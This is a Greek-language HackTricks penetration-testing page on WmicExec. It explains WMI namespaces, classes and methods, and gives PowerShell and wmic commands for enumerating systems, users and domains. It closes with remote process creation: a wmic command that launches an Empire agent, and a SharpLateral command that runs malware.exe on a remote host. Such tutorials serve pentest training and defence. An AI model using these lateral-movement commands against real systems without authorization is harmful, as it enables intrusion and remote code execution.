 # WmicExec

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Πώς Λειτουργεί Εξηγημένο

Οι διεργασίες μπορούν να ανοίξουν σε υπολογιστές όπου το όνομα χρήστη και είτε ο κωδικός πρόσβασης είτε το hash είναι γνωστά μέσω της χρήσης του WMI. Οι εντολές εκτελούνται χρησιμοποιώντας το WMI από το Wmiexec, παρέχοντας μια ημι-διαδραστική εμπειρία κέλυφους.

**dcomexec.py:** Χρησιμοποιώντας διάφορα σημεία τερματικής DCOM, αυτό το script προσφέρει μια ημι-διαδραστική κέλυφος παρόμοια με το wmiexec.py, εκμεταλλευόμενο ειδικά το αντικείμενο DCOM ShellBrowserWindow. Υποστηρίζει αυτή τη στιγμή τα αντικείμενα MMC20. Application, Shell Windows και Shell Browser Window. (πηγή: [Hacking Articles](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/))

## Θεμελιώδης Τεχνολογία WMI

### Χώρος Ονομάτων

Ο WMI είναι οργανωμένος σε ιεραρχία παρόμοια με έναν κατάλογο, με τον κορυφαίο φάκελο του WMI να είναι το \root, κάτω από τον οποίο οργανώνονται επιπλέον φάκελοι, γνωστοί ως χώροι ονομάτων.
Εντολές για την εμφάνιση των χώρων ονομάτων:
```bash
# Retrieval of Root namespaces
gwmi -namespace "root" -Class "__Namespace" | Select Name

# Enumeration of all namespaces (administrator privileges may be required)
Get-WmiObject -Class "__Namespace" -Namespace "Root" -List -Recurse 2> $null | select __Namespace | sort __Namespace

# Listing of namespaces within "root\cimv2"
Get-WmiObject -Class "__Namespace" -Namespace "root\cimv2" -List -Recurse 2> $null | select __Namespace | sort __Namespace
```
Οι κλάσεις εντός ενός namespace μπορούν να εμφανιστούν χρησιμοποιώντας:
```bash
gwmwi -List -Recurse # Defaults to "root\cimv2" if no namespace specified
gwmi -Namespace "root/microsoft" -List -Recurse
```
### **Κλάσεις**

Γνωρίζοντας το όνομα μιας κλάσης WMI, όπως το win32\_process, και το namespace στο οποίο ανήκει, είναι κρίσιμο για οποιαδήποτε λειτουργία WMI.
Εντολές για να εμφανιστούν οι κλάσεις που αρχίζουν με `win32`:
```bash
Get-WmiObject -Recurse -List -class win32* | more # Defaults to "root\cimv2"
gwmi -Namespace "root/microsoft" -List -Recurse -Class "MSFT_MpComput*"
```
Επίκληση μιας κλάσης:
```bash
# Defaults to "root/cimv2" when namespace isn't specified
Get-WmiObject -Class win32_share
Get-WmiObject -Namespace "root/microsoft/windows/defender" -Class MSFT_MpComputerStatus
```
### Μέθοδοι

Οι μέθοδοι, που είναι μία ή περισσότερες εκτελέσιμες συναρτήσεις των κλάσεων WMI, μπορούν να εκτελεστούν.
```bash
# Class loading, method listing, and execution
$c = [wmiclass]"win32_share"
$c.methods
# To create a share: $c.Create("c:\share\path","name",0,$null,"My Description")
```

```bash
# Method listing and invocation
Invoke-WmiMethod -Class win32_share -Name Create -ArgumentList @($null, "Description", $null, "Name", $null, "c:\share\path",0)
```
## Απαρίθμηση WMI

### Κατάσταση υπηρεσίας WMI

Εντολές για να επαληθεύσετε αν η υπηρεσία WMI λειτουργεί:
```bash
# WMI service status check
Get-Service Winmgmt

# Via CMD
net start | findstr "Instrumentation"
```
### Πληροφορίες συστήματος και διεργασιών

Συλλογή πληροφοριών συστήματος και διεργασιών μέσω του WMI:
```bash
Get-WmiObject -ClassName win32_operatingsystem | select * | more
Get-WmiObject win32_process | Select Name, Processid
```
Για τους επιτιθέμενους, το WMI είναι ένα ισχυρό εργαλείο για την απαρίθμηση ευαίσθητων δεδομένων σχετικά με συστήματα ή domains.
```bash
wmic computerystem list full /format:list
wmic process list /format:list
wmic ntdomain list /format:list
wmic useraccount list /format:list
wmic group list /format:list
wmic sysaccount list /format:list
```
### **Επιτομή Επιθεσης**

Η αναζήτηση απομακρυσμένα στο WMI για συγκεκριμένες πληροφορίες, όπως τοπικοί διαχειριστές ή συνδεδεμένοι χρήστες, είναι εφικτή με προσεκτική κατασκευή των εντολών.

### **Χειροκίνητη Απομακρυσμένη Αναζήτηση στο WMI**

Η αναγνώριση κρυφών τοπικών διαχειριστών σε απομακρυσμένο υπολογιστή και συνδεδεμένων χρηστών μπορεί να επιτευχθεί μέσω συγκεκριμένων αναζητήσεων στο WMI. Το `wmic` υποστηρίζει επίσης την ανάγνωση από ένα αρχείο κειμένου για την εκτέλεση εντολών σε πολλούς κόμβους ταυτόχρονα.

Για την απομακρυσμένη εκτέλεση ενός διεργασίας μέσω WMI, όπως η εγκατάσταση ενός πράκτορα Empire, χρησιμοποιείται η παρακάτω δομή εντολής, με επιτυχή εκτέλεση που υποδηλώνεται από μια επιστρεφόμενη τιμή "0":
```bash
wmic /node:hostname /user:user path win32_process call create "empire launcher string here"
```
Αυτή η διαδικασία απεικονίζει τη δυνατότητα του WMI για απομακρυσμένη εκτέλεση και απαρίθμηση συστήματος, αναδεικνύοντας τη χρησιμότητά του τόσο για τη διαχείριση συστήματος όσο και για τον έλεγχο διείσδυσης.


## Αναφορές
* [https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)

## Αυτόματα Εργαλεία

* [**SharpLateral**](https://github.com/mertdas/SharpLateral):

{% code overflow="wrap" %}
```bash
SharpLateral redwmi HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe
```
{% endcode %}

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
